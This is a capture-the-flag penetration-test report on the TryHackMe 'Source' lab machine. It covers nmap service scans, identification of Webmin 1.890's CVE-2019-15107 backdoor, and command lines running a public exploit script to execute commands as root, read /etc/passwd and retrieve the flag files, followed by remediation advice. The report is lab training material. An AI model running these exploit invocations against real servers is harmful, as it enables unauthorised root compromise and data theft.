 ## Penetration Test Report
of "Source" machine (https://tryhackme.com/room/source)
09.22.2022


Duck9001
mail: notreal@mail.really

### Table of contents:
Exective summary
Summary of results
Attack narrative
Conclusion
Risk rating
Recommendations

### Executive summary
With owner consent I conducted a penetration test of Source machine (https://tryhackme.com/room/source).

Efforts were placed on identification and exploitation of security weaknesses that could allow a remote attacker to gain unauthorised access to organizational data.

Specific goal was to access data stored in `root.txt` and `user.txt`.

### Summary of results
Initial scan of Source ports revealed vulnerable https service that allowed Remote Code Execution (RCE).

Moreover logging interface of that service provided no bruteforce protection. However bruteforce of that service was not succefull.

### Attack narrative
#### Service identification
`sudo nmap -Pn -sS 10.10.42.179`
```
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt
```


`sudo nmap -sV -p 22 10.10.42.179`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It looks like machine is an Ubuntu server

`sudo nmap -sV -p 10000 10.10.42.179`
```
PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```
service: Webmin 1.890


#### RCE
`Webmin 1.890` vulnerability found in [vulners](https://vulners.com/search) database
```
# CVE-2019-15107

An issue was discovered in Webmin <=1.920. The parameter old in password_change.cgi contains a command injection vulnerability
```
That vulnerability is a result of supply chain attack on one of the Webmin developers. Hacker embeded a backdoor enabling RCE if adequate payload is present in HTTP POST request body.

exploit found on [github](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py)
it works by crafting HTTP POST requests with mentioned above payload.
`sudo python3 webmin-1.890_exploit.py 10.10.42.179 10000 'id;whoami;groups'`
```
uid=0(root) gid=0(root) groups=0(root)
root
root
```

RCE with root privileges result in a complete compromise of target.

#### Locating assets
Because Ubuntu uses `apt` by default I correctly assumed it's installed
`sudo python3 webmin-1.890_exploit.py 10.10.132.155 10000 'apt list' > ~/Workspace/dir/list`
I gained a list of all installed tools to use

`sudo python3 webmin-1.890_exploit.py 10.10.42.179 10000 'cat /etc/passwd' | grep "bash"`
```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1710    0  1659  100    51   6561    201 --:--:-- --:--:-- --:--:--  6785
root:x:0:0:root:/root:/bin/bash
dark:x:1000:1000:Dark:/home/dark:/bin/bash
```
username is dark

`sudo python3 webmin-1.890_exploit.py 10.10.42.179 10000 'cd /home/dark; cat user.txt'` - User asset

`sudo python3 webmin-1.890_exploit.py 10.10.42.179 10000 'cat /root/root.txt'` - Root asset

### Conclusion
Source suffered vulnerability that would have dramatic effect if malicious party had expoited it.

The specific goals of penetration test was to gain read access to `user.txt` and `root.txt`. Both of them were met.

It is important to note, that that vulnerability is a threat not only to assets, but also **Identity Management**, **Authentication**, and **Access Control** especially, if webserver is a trusted node on infrastructure network.

### Risk rating
According to CVSS V3:

**`Critical`** (>9) - exploitation is straightforward, results in system-level compromise

### Recommendations
1. Frequent updates of installed software - when supply chain attack (or other vulnerabilities) are discovered maintainers patch them
2. Port-knocking implementation - if webserver is meant for non-public purposes port-knocking would decrease likelihood of service detection
3. Regular vulnerability assasments


